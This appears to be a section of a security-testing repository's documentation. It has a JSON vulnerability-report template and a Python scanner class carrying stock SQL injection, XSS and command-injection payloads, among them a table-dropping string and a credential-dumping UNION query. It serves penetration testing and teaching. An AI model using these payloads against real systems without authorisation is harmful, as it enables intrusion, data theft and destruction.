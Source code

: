 ## 🛠️ Security Testing Templates

### **Vulnerability Assessment Template:**
```json
{
  "vulnerability": {
    "id": "VULN-001",
    "title": "SQL Injection in User Search",
    "category": "injection",
    "severity": "high",
    "cvss_score": 8.8,
    "description": "SQL injection vulnerability in user search functionality",
    "location": "/api/users/search",
    "parameter": "q",
    "proof_of_concept": "'; DROP TABLE users; --",
    "impact": "Database compromise, data exfiltration",
    "remediation": "Use parameterized queries",
    "references": ["CWE-89", "OWASP A03:2021"]
  }
}
```

### **Exploit Development Template:**
```python
class VulnerabilityExploit:
    def __init__(self, target_url, vulnerability_type):
        self.target_url = target_url
        self.vulnerability_type = vulnerability_type
        self.payloads = self.load_payloads()
    
    def load_payloads(self):
        payload_map = {
            "sql_injection": [
                "' OR '1'='1",
                "'; DROP TABLE users; --",
                "' UNION SELECT username, password FROM users --"
            ],
            "xss": [
                "<script>alert('XSS')</script>",
                "<img src=x onerror=alert('XSS')>",
                "<svg onload=alert('XSS')>"
            ],
            "command_injection": [
                "; ls -la",
                "| whoami",
                "&& id"
            ]
        }
        return payload_map.get(self.vulnerability_type, [])
    
    def test_vulnerability(self, parameter):
        for payload in self.payloads:
            response = self.send_payload(parameter, payload)
            if self.detect_vulnerability(response, payload):
                return {
                    "vulnerable": True,
                    "payload": payload,
                    "response": response.text[:500]
                }
        return {"vulnerable": False}
```
